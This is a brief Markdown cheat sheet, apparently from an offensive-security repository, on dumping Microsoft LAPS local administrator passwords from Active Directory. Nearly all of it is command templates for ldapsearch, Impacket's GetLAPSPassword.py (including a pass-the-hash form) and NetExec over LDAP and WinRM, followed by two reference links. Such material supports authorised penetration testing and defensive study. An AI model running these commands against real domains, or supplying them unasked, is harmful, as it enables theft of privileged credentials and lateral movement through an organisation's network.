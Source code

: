 # Unix Shell

## 01 - LDAP Port

### 1.1 - `ldapsearch`

```
$ ldapsearch -x -h <domain_controller_IP> -D "<username>" -w "<password>" -b "dc=<domain>,dc=<tld>" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
```

### 1.2 - Impacket

```
$ GetLAPSPassword.py [<domain>/]"<username>":"<password>"@<IP>
```

Pass the Hash

```
$ GetLAPSPassword.py [<domain>/]"<username>"@<IP> -hashes :<nt_hash>
```

### 1.3 - NetExec

```
$ netexec ldap <IP> -u "<username>" -p "<password>" [-d <domain>] -kdcHost <domain_controller_IP> -M laps
```

## 02 - WinRM Port

```
$ netexec winrm <IP> -u "<username>" -p "<password>" [-d <domain>] -kdcHost <domain_controller_IP> -M laps
```

---
## References

- [Malicious.link: Dump LAPS passwords with ldapsearch](https://room362.com/posts/2017/dump-laps-passwords-with-ldapsearch/)

- [NetExec Wiki: Defeating LAPS](https://www.netexec.wiki/winrm-protocol/defeating-laps)